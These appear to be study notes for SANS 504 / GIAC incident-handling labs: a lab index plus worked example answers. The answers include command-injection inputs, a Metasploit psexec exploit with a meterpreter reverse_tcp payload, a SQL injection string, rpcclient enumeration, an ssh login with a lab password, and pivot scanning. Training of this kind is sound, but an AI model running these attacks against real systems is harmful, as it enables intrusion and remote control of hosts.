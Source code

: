 # SANS 504 Lab Index

`Book 1`

`Live Windows Examination`

`Network Investigation`

`Memory Investigation`

`Malware Investigation`

`Cloud Investigation`

_______________________________

`Book 2`

`OSINT with SpiderFoot`

`DNS Interrogation`

`Nmap`

`Cloud Scanning`

`SMB Sessions`

`Windows Password Spray Detection`

_______________________________

`Book 3`

`Password Guessing with Hydra`

`John the ripper`

`Hashcat`

`Domain Password Audit Tool (DPAT)`

`Cloud Bucket Discovery`

`Netcats Many Uses`

_______________________________

`Book 4`

`Metasploit attack and analysis`

`BeEF for Browser Exploitation`

`System Resource Usage and Database Analysis`

`Command Injection Attack`

`Cross-Site Scripting`

`SQL Injection`

`Cloud SSRF/IMDS Attack`

_______________________________

`Book 5`

`Pivoting with Metasploit`

`Responder Attack`

`Establishing persistence with Metasploit`

`Real Intelligence Threat Analytics (RITA)`

`Cloud Configuration Assessment`



`Command Injection (Lab 4.4)`


---

`Example`; Use command injection to identify the directory that contains the files and display the contents of the files. 



1. Inject command to show directories (; ls) or (&& ls)
2. Cat applicable files (; cat./file/file1.txt) 

`Metasploit (Lab 4.1)`


---

`Example`; Which of the following hotfixes are installed on the target hosts?



1. msfdb start (Initiate the Metasploit database process and supporting services)
2. msfconsole (Start the msf console)
3. use exploit/windows/smb/psexec
4. set PAYLOAD windows/meterpreter/reverse_tcp
5. show options (Optional)
6. set RHOSTS [IP] (Windows 10 host)
7. set SMBUSER [Username of Win 10 in Admin-Group]
8. set SMBPASS [could be password OR LANMAN:NTHash]
9. set LHOST [IP] (Localhost, Slingshot)
10. Leave LPORT as default, TCP/4444
11. show options (Optional)
12. exploit
13. To find the hotfix from the meterpreter prompt, run the following command; _execute -if systeminfo_

`Netcat (Lab 3.6)`


---

`Example`; What version of Sendmail is running? 



1. nc 127.0.0.1 25 (Will reveal the version of Sendmail)

`Example`; There is another host on this subnet with an unknown service running. Connect to the port. What is the first line of text sent by the server? 



1. nc [IP] [Port]

`net user (Establishing Persistence with Metasploit 5.3)`


---

`Example`; Which account did the attacker create?



1. The new account can be identified by checking “net user” to see a list of all users on the system, and in Powershell (Run as Admin)
    1. Get-WinEvent -FilterHashtable @{Logname=’Security’;ID=4720} | fl-property timecreated, message

`rpcclient`


---

`Example`; What is the relative identifier for the “Performance Log Users” group on the host 192.168.101.150?



1. rpcclient 192.168.101.150 -U Candidate
2. [Password]
3. rpcclient > enumalsgroups builtin
    1. Or ‘server type string’ > srvinfo

`ssh`


---

`Example`; Reconnaissance has found that host 10.10.10.20 has an ssh server running on port 3192 that can be logged into with the credentials below. What IP can be seen from the host 10.10.10.20 that is not visible from the host 10.10.10.10.



1. To see these hosts you must first open an SSH session to 10.10.10.20 with the credentials obtained in the reconnaissance phase:
    1. ssh bweir@10.10.10.20 -p3192
    2. bweir@10.10.10.20 password: estimated
2. Check the network configuration by using the _ifconfig_ command. The output from _ifconfig_ will show that there is another network associated with the interface eth1. Now you can run nmap scan to see other hosts on this new network. 
    3. nmap -sn 102.168.66.0/24

`SQL Injection (Lab 4.6)`


---

`Example`; Which form field on the website www.example.com is vulnerable to SQL injection?



1. By probing each of the form fields with SQL injection strings, the field “City” will return the values when a string such as ‘or '1'='1 is entered. 

`Volatility (Memory Investigation 1.3)`


---

`Example`; How many .dll files are associated with LoadCount 0xffff for the file SecurityHealthService.exe (pid 3024)?



1. cd /opt/volatility
2. source venv/bin/activate
3. python vol.py -f /home/giac/memory_captures/hen_memdump.mem --profile=Win10x64_15-63 dlllist
4. Consider piping the above vol.py command through something like _grep -A 10-B 10 “3024” _in order to narrow results